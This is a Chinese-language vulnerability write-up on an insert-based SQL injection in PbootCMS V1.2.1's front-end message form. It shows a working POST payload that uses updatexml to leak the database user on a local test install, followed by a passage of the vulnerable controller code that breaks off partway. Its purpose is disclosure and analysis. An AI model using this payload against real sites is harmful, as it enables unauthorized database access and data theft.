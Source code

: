 PbootCMS sql注入
================

0x01 前台home模块注入漏洞
-------------------------

0x01.1 在线留言处insert sql注入
-------------------------------

### 0x01.1.2 漏洞演示

注：我本地测试的所以我把验证验证码那一步关闭了=-=，实战中请自己加上验证码

![](./resource/PbootCMSsql注入/media/rId24.png)

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Message/add
    post:
        contacts[content`,`create_time`,`update_time`) VALUES ('1', '1' ,1 and updatexml(1,concat(0x3a,user()),1) );-- a] = 1111
        content = 1111
        mobile = 1111

![](./resource/PbootCMSsql注入/media/rId25.png)

### 0x01.1.2 漏洞解读

路径：PbootCMS-V1.2.1\\apps\\home\\controller\\MessageController.php
方法：add(

    // 留言新增
        public function add()
        {
            if ($_POST) {

                if (time() - session('lastsub') < 10) {
                    alert_back('您提交太频繁了，请稍后再试！');
                }

                // 验证码验证
                $checkcode = post('checkcode');
                if ($this->config('message_check_code')) {
                    // if (! $checkcode) {
                    //     alert_back('验证码不能为空！');
                    // }

                    if ($checkcode != session('checkcode')) {
                        alert_back('验证码错误！');
                    }
                }

                // 读取字段
                if (! $form = $this->model->getFormField(1)) {
                    alert_back('留言表单不存在任何字段，请核对后重试！');
                }
